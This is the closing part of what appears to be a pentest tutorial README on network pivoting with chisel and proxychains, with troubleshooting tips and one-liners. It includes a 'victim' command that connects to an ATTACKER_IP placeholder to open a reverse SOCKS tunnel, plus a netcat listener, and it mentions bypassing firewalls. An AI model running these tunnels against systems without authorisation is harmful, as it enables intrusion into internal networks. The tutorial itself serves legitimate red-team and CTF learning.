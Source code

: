 Troubleshooting: 

| Problem                          | Fix                                                     |
| -------------------------------- | ------------------------------------------------------- |
| `Unsupported SOCKS version: [4]` | You are using SOCKS4 in proxychains; change to `socks5` |
| Can't connect to attacker        | Check port 9001 is open; use `nc -lvnp 9001` to confirm |
| Nothing works over proxychains   | Use `proxychains -f /path/to/custom.conf` to be sure    |
| `conn#1: Close` immediately      | Target service may be down or IP is wrong               |


One Liners: 

Chisel Server (Attacker)
```./chisel server -p 9001 --socks5```

Chisel Client (Victim)
```./chisel client <ATTACKER_IP>:9001 socks```

Proxychains Config
```socks5 127.0.0.1 1080```

Use
```proxychains ...```

---

## Conclusion

With `chisel`, you can easily pivot into internal networks using SOCKS5 tunnels over HTTP, bypass firewalls, and proxy tools like `nmap`, `xfreerdp`, and `curl`. This setup is extremely useful in CTFs, red teaming, and real-world pentests.

For more information, check out the [official Chisel GitHub repository](https://github.com/jpillora/chisel).

>  Feel free to open an issue or PR if you spot any mistake.

Happy hacking!











